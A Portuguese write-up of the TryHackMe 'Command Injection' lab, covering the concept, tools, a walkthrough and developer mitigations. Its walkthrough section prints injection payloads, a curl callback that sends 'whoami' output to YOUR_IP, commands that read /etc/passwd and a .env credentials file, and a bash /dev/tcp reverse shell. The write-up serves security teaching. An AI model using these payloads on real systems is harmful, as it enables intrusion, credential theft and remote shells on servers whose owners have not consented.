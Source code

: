 # Write-up: TryHackMe — Command Injection

**Plataforma:** TryHackMe  
**Sala:** Command Injection — Cybersecurity 101 / Web Hacking  

---

## 1. Introdução e objetivos da sala

A sala **Command Injection** demonstra como aplicações que passam entradas do usuário diretamente a comandos do sistema operacional podem permitir a execução remota de comandos arbitrários. O objetivo é identificar vetores de injeção, explorar com payloads simples e mostrar como mitigar a falha em aplicações web.

Objetivos:
- Entender por que chamar comandos do SO com entradas não confiáveis é perigoso.
- Explorar técnicas de injeção (inline commands, `;`, `&&`, backticks, `$()`).
- Praticar a exploração em um ambiente controlado e descrever mitigação e prevenção.

---

## 2. Ferramentas utilizadas

* Navegador + DevTools — inspecionar requests/params.  
* Burp Suite / proxy (opcional) — interceptar e modificar requisições.  
* Terminal / AttackBox — receber callbacks com `nc -lvp` e testar payloads com `curl`.  
* `curl`, `wget` — testar endpoints, enviar payloads.  

---

## 3. Conceito rápido

**Command Injection** ocorre quando um servidor constrói uma linha de comando do sistema operacional concatenando strings que incluem dados controlados pelo usuário e, em seguida, a executa (por exemplo `system()`, `exec()`, `passthru()` em PHP). Um atacante injeta operadores ou subcomandos para executar instruções arbitrárias.

Formas comuns de injetar:
- Separadores de comando: `;`, `&&`, `||`  
- Substituição inline: `` `command` `` ou `$(command)`  
- Redirecionamentos e pipes para ler/alterar arquivos: `>`, `>>`, `|`

---

## 4. Walkthrough / Metodologia (exemplo prático)

> Cenário típico: aplicação com parâmetro `cow` ou `name` que é passado para `cowsay` usando `passthru()` (PHP) ou `system()`.

### 1) Identificar o vetor
- Encontrar input que é refletido/executes server-side. Ex.: `GET /cowsay?text=hello`.
- Testar payloads inofensivos para ver comportamento (caractere especial `;` pode quebrar a saída).

### 2) Teste rápido com payloads
- Teste básico:
```
; whoami
```
ou
```
$(whoami)
```
- Se o site passa o parâmetro direto para o comando, o retorno do `whoami` aparece na resposta ou no output do processo, indicando vulnerabilidade.

### 3) Capturar callback (quando payload causa request externo)
- Suba um listener: `nc -lvp 9001`.
- Injete payload que faça request ao seu host:  
```
; curl http://YOUR_IP:9001/$(whoami)
```
- O servidor fará a requisição e seu listener verá a tentativa, confirmando execução remota.

### 4) Escala e exploração prática
- Ler arquivos sensíveis: `; cat /etc/passwd`  
- Buscar credenciais: `; cat /var/www/.env`  
- Obter shell reverso (apenas em lab): criar payload para `bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1` ou usar `nc` reverso se disponível.

> Sempre documente os passos, comandos executados e evidências (respostas, flags, captura do listener).

---

## 5. Mitigações recomendadas (para desenvolvedores)

1. **Evite chamar o shell** — prefira APIs nativas do idioma (bibliotecas) para realizar tarefas (por exemplo, manipular arquivos em vez de rodar `cat` via shell).  
2. **Whitelist de comandos / argumentos** — se for necessário executar comandos, valide estritamente os valores permitidos.  
3. **Escape adequado** — use funções de escaping específicas da plataforma (ex.: `escapeshellarg`, `escapeshellcmd` em PHP) — mas prefira evitar por completo.  
4. **Princípio de menor privilégio** — processos que executam comandos não devem rodar como root.  
5. **Input validation & normalization** — rejeitar caracteres perigosos ou patterns suspeitos.  
6. **Logging e monitoramento** — auditar execuções de comandos, bloquear padrões anômalos e alertar.  

---

## 6. Lições aprendidas e conclusão

Command Injection ilustra a regra de ouro: nunca confiar em dados controlados pelo usuário. Em contextos de backend/Node/Java/JavaScript, evite executar comandos shell com inputs diretos — prefira bibliotecas e funções internas. Para devs, este write-up demonstra como testar, comprovar a falha e escrever recomendações práticas para remediação.

---
